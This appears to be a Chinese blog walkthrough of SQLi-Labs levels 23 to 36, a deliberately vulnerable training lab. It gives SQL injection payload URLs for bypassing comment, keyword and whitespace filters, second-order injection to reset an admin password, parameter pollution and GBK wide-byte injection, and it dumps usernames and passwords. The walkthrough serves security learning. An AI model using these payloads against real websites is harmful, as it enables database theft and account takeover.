


SQLI-LABS 2
Less-23
过滤了#、–的注释
1 | $reg = "/#/"; |
1.可以使用 ;%00 来绕过
1 | http://192.168.3.7/sqli/Less-23/?id=-1' union select 1,(select database()),3;%00 |
这样分号之前的语句会被执行，%00是空格的意思，所以这是一种绕过限制的方式。
2.闭合引号,报错注入
or ‘a’=’a
1 | http://192.168.3.7/sqli/Less-23/?id=1' and extractvalue(1,concat(0x5c,(select user()),0x5c)) or '1'='1 |
Less-24
二次注入的方法：注册时候将sql语句插入了数据库，当再次调用这个恶意构造的字符时，就可以出发sql注入
1 | $username= $_SESSION["username"]; |
先注册
1 | admin' # |
然后再修改密码就可以修改已知用户的密码
1 | test |
其中修改密码的sql执行如下
1 | $sql = "UPDATE users SET PASSWORD='admin' where username='admin' # and password='test' "; |
Less-25
过滤了or and 也影响了 order 和informatinon_shchema 两个关键字
1 | $id= blacklist($id); |
tips
1.and 用&& 代替，or 用||代替
2.利用重写:or 用oorr 代替,and 用anandd 代替
answer:
判断是否有注入
注意： &在url中会被当做参数的分隔符，所以要编码一下
1 | http://192.168.3.7/sqli/Less-25/?id=1' %26%26 '1'='1 |
判断字段数
1 | http://192.168.3.7/sqli/Less-25/?id=1' oorrder by 4--+ |
得到数据库名
1 | http://192.168.3.7/sqli/Less-25/?id=-1' union select 1,2,group_concat(table_name) from infoorrmation_schema.tables where table_schema=database() --+ |
Less-25a
整形注入，过滤了and和or
1 | import time |
Less-26
过滤如下面的blacklist,过滤了注释、空格、or、and
1 |
|
可以写一个脚本判断过滤了什么
1 | import requests |
tips:
空格过滤
1 | %09 TAB 键（水平） |
可以写个脚本判断判断哪些 URL 编码能够代替空格
1 | import requests |
运行结果
1 | this can use:%09 |
具体还要一一一下
在linux下这里可以用%a0绕过
注意点：
在 Windows 下会有无法用特殊字符代替空格的问题，这是 Apache 解析的问题，Linux 下无这个问题。
我这里是window环境，就使用括号将空格来绕过空格
1 | http://192.168.3.7/sqli/Less-26/?id=1'||(updatexml(1,concat(0x5e,database(),0x5e),1))||%27%27=%27 |
爆表
1 | http://192.168.3.7/sqli/Less-26/?id=1'||updatexml(1,concat(0x7e,(select(group_concat(table_name))from(infoorrmation_schema.tables)where(table_schema)=database()),0x7e),1)||'1'='1 |
爆字段
1 | http://192.168.3.7/sqli/Less-26/?id=1'||updatexml(1,concat(0x7e,(select(group_concat(column_name))from(infoorrmation_schema.columns)where(table_name)='users'),0x7e),1)||'1'='1 |
爆数据
这里有一个知识点，因为要绕过空格，所以limit 就不能用了，但是updatexml（）只能爆32位，如果要爆的数据过多，就没有办法了。所以我们这里再使用一个在盲注中用过的函数 substr()
1 | http://192.168.3.7/sqli/Less-26/?id=1'||updatexml(1,substr(concat(0x7e,(select(group_concat(passwoorrd))from(users)),0x7e),1,32),1)||'1'='1 |
Less-26a
在没有过滤时，第一件事是判断注入类型，是字符型还是数字型。
而有过滤时，判断注入类型后最重要的就是判断过滤条件。
但无错误回显时，如何区分是被过滤还是被转为整型呢？
注入类型
1和1”正常回显，1’报错，判断为字符型，但是还要判断是否有小括号。
判断是否有小括号
2’&&’1’=’1
若查询语句为where id=’$id’，查询时是where id=’2’&&’1’=’1’，结果是where id=’2’，回显会是id=2。
若查询语句为where id=(‘$id’)，查询时是where id=(‘2’&&’1’=’1’)，MySQL 将’2’作为了 Bool 值，结果是where id=(‘1’)，回显会是id=1。1’)||’1’=(‘1
若查询语句有小括号正确回显，若无小括号错误回显（无回显）。
answer:
1 | import time |
Less-27
1 | function blacklist($id) |
select和union可以大小写绕过
1 | http://192.168.3.7/sqli/Less-27/?id=1'%26%26(updatexml(1,concat(0x7e,(SelEct(user())),0x7e),1))%26%26'1'='1 |
Less-27a
1 | http://192.168.3.7/sqli/Less-27a/?id=1"%26%26sleep(3)%26%26"1 |
Less-28
1 |
|
answer:
1 | http://192.168.3.7/sqli/Less-28/?id=1')%26%26sleep(3)%26%26('1 |
Less-28a
1 |
|
Less-29
进入的index.php，那个页面没起到拦截作用 ，所以应进Less-29/Login.php
1 | $qs = $_SERVER['QUERY_STRING']; |
tips:
HTTP参数污染（HPP）
HPP方法主要用于服务器两层架构

服务器端有两个部分：第一部分为 tomcat 为引擎的 jsp 型服务器，第二部分为 apache为引擎的 php 服务器，真正提供 web 服务的是 php 服务器。工作流程为：client 访问服务器，能直接访问到 tomcat 服务器，然后 tomcat 服务器再向 apache服务器请求数据。数据返回路径则相反。
所以重点：index.php?id=1&id=2，到底是显示 id=1 的数据还是显示 id=2 的？
Explain：apache（php）解析最后一个参数，即显示 id=2 的内容。Tomcat（jsp）解析第一个参数，即显示 id=1 的内容。
对于几个主要的服务器，其对多个参数的获取情况归纳如下：

answer:
假如传入两个id ,java_implimentation会对第一个id进行过滤处理 $_GET['id']得到的是第二个id的值。 所以这里可以使用第二个id绕过过滤。
1 | http://192.168.3.7/sqli/Less-29/login.php?id=1&id=-2' union select 1,2,group_concat(username,0x23,password) from users --+ |
Less-30
双引号闭合，其他跟Less-29一样
Less-31
“)闭合，其他跟Less-30一样
Less-32
宽字节注入
1 | function check_addslashes($string) |
大家都知道%df’ 被PHP转义（开启GPC、用addslashes函数，或者icov等），单引号被加上反斜杠\，变成了 %df\’，其中\的十六进制是 %5C ，那么现在 %df\’ =%df%5c%27，如果程序的默认字符集是GBK等宽字节字符集，则MySQL用GBK的编码时，会认为 %df%5c 是一个宽字符，也就是縗，也就是说：%df\’ = %df%5c%27=縗’，有了单引号就好注入了。
answer:
1 | 192.168.3.7/sqli/Less-32/?id=%df' union select 1,2,group_concat(username) from users--+ |
Less-33
和上题目一样宽字节注入
1 | function check_addslashes($string) |
Less-34
POST形式的宽字节注入
Less-35
整型宽字节注入
1 | function check_addslashes($string) |
addslashes() 函数返回在预定义字符之前添加反斜杠的字符串。
单引号（’）
双引号（”）
反斜杠（\）
NULL
Less-36
1 | function check_quotes($string) |
mysql_real_escape_string() 函数转义 SQL 语句中使用的字符串中的特殊字符。
1 | \x00 |
answer:
1 | http://192.168.3.7/sqli/Less-36/?id=%df' and (extractvalue(1,concat(0x7e,(select user()),0x7e))) --+ |